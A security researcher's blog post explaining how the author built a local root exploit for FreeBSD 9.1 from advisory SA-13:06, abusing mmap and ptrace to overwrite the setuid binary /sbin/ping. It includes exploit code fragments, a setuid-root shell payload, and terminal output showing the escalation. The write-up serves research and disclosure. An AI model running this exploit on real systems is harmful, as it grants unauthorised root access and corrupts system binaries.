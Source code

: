 title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
category: research
tags: freebsd, 1day, lpe
date: 2013-06-20 00:00 +0000
modified: 2013-06-20 00:00 +0000


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
         vm_map_unlock_read(map);
         return (KERN_PROTECTION_FAILURE);
     }
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

     /*
      * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

<div markdown="span" class="alert-info"><i class="fa fa-info-circle">&nbsp;Note:</i> I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.</div>

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)

        :::c
        int fd = open("/sbin/ping", O_RDONLY);
        caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

        :::c
        if (ptrace(PT_ATTACH, pid, 0, 0) < 0)
        {
            perror("[-] ptrace(PT_ATTACH) failed");
            return;
        }
        [...]
        int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
        write(fd,
            "#include <stdio.h>\n"\
            "main(){ "\
            "char* s[]={\"/bin/sh\",NULL};"\
            "setuid(0);execve(s[0],s,0); }\n",
            84);
        close(fd);
        system("gcc -o ./sc ./sc.c");

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`

        :::c
        fd = open("./sc", O_RDONLY);
        while (1) {
            int a;
            int n = read(fd, &a, sizeof(int));
            if (n <= 0) break;
            ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
            i+=n;
        }


Done! Simply execute the target binary to get a root shell.

```shell
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 $ id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
